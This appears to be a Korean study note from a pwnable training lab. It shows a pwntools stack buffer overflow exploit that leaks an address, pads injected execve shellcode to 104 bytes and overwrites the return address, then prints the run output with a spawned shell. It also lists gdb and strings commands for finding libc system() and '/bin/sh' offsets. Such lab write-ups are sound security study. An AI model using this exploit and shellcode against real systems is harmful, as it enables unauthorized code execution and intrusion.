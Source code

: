 ```python
shellcode_address = p32(int(origin,16))

shellcode+=b'a'*(104-len(shellcode))
shellcode+=shellcode_address

p.sendline(shellcode)
p.interactive()
```

쉘코드는 기본적으로 리틀엔디언으로 표현되어 있기 때문에 그대로 사용하면 됨
하지만 쉘로  출력되는 주소값은 그러한 표현법을 고려하지 않은 순수한 주소임
따라서 적절한 바이트 처리를 해줘야 함
```python
origin=p.recv(10)[2:]
shellcode_address = p32(int(origin,16))
```

그 다음 쉘코드와 쓰레기값의 합이 104가 되게 만들고 그 뒤에 실행 중에 얻게된 쉘코드 주소를 넣음

```python
shellcode+=b'a'*(104-len(shellcode))
shellcode+=shellcode_address
```

마지막으로 쉘코드를 입력값으로 넣고 interactive()를 실행
```python
p.sendline(shellcode)
p.interactive()
```

실행 결과
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/shellcode_ex/shellcode_ex]
└─$ python3 exploit.py 
[+] Starting local process './test': pid 69048
108
b'1\xc0\xb01\xcd\x80\x89\xc3\x89\xc11\xc0\xb0F\xcd\x801\xc0Ph//shh/bin\x89\xe3PS\x89\xe11\xd2\xb0\x0b\xcd\x80aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa4\x1c\xf7\xff'
[*] Switching to interactive mode
$ id
uid=1000(foo1) gid=1000(foo1) groups=1000(foo1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),138(docker)
$  
```




# system(), bin/sh 찾기

```bash
ldd ./target
shared_library 	/lib/i386-linux-gnu/libc.so.6

strings -tx [shared_library] | grep "bin/sh"
/bin/sh		0x15bb2b

gdb [shared_library]
print system
system		0x3adb0

p/x 0x15bb2b-0x3adb0
$2=0x120d7b

diff		0x120d7b

gdb target
r
```